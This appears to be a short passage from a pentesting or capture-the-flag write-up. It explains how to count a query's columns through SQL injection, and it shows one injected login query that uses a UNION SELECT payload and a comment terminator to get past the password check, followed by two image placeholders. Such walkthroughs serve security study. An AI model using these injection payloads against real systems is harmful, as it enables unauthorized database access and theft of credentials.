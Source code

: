 First enumerate the number of columns requested with original SELECT by variably incrementing the number of NULL columns in order to spot the original columns requested (4 is the correct number of null to use!):

{% code overflow="wrap" %}
```sql
select ?,?,username,password from users where username = '' UNION SELECT null,null-- -' and password = 'test';
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (476).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (477).png" alt=""><figcaption></figcaption></figure>
